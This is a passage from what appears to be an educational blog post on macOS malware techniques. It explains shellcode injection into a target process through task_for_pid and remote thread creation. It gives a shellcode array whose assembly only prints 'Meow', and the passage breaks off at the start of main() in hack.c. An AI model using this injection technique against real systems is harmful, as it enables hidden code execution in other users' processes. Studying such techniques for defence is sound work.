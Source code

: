 What is going on here? We ask the kernel to spin up a new thread in the target with your register context. The scheduler will start it at your entry point.    

Finally, we need shellcode:    

```cpp
unsigned char shellcode[] =
  "\x48\xb8\x4d\x65\x6f\x77\x0a\x00\x00\x00"
  "\x50\xbf\x01\x00\x00\x00"
  "\x48\x89\xe6\xba\x05\x00\x00\x00"
  "\xb8\x04\x00\x00\x02\x0f\x05"
  "\xb8\x01\x00\x00\x02\x48\x31\xff\x0f\x05";
```

from one our [previous posts](/macos/2025/07/08/malware-mac-5.html) in macOS hacking [series](/macos/2025/06/12/malware-mac-1.html):     

```nasm
global start

section .text
start:
  mov rax, 0x0a776f654d     ; "\nwoeM" in little-endian
  push rax                  ; string now on stack

  mov rdi, 1                ; fd = 1 (stdout)
  mov rsi, rsp              ; pointer to "Meow\n"
  mov rdx, 5                ; length = 5 bytes
  mov rax, 0x2000004        ; syscall: write
  syscall

  mov rax, 0x2000001        ; syscall: exit
  xor rdi, rdi              ; exit code 0
  syscall
```

So full source code is looks like this `hack.c`:     

```cpp
/*
 * hack.c
 * macOS x86_64 shellcode injection 
 * using task_for_pid and 
 * remote thread creation
 * author @cocomelonc
 * https://cocomelonc.github.io/macos/2025/08/24/malware-mac-10.html
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <mach/mach.h>
#include <mach/mach_vm.h>
#include <mach/thread_act.h>
#include <mach/thread_status.h>

unsigned char shellcode[] =
  "\x48\xb8\x4d\x65\x6f\x77\x0a\x00\x00\x00"
  "\x50\xbf\x01\x00\x00\x00"
  "\x48\x89\xe6\xba\x05\x00\x00\x00"
  "\xb8\x04\x00\x00\x02\x0f\x05"
  "\xb8\x01\x00\x00\x02\x48\x31\xff\x0f\x05";

int main(int argc, char *argv[]) {
  if (argc != 2) {
    fprintf(stderr, "usage: %s <pid>\n", argv[0]);
    return 1;
```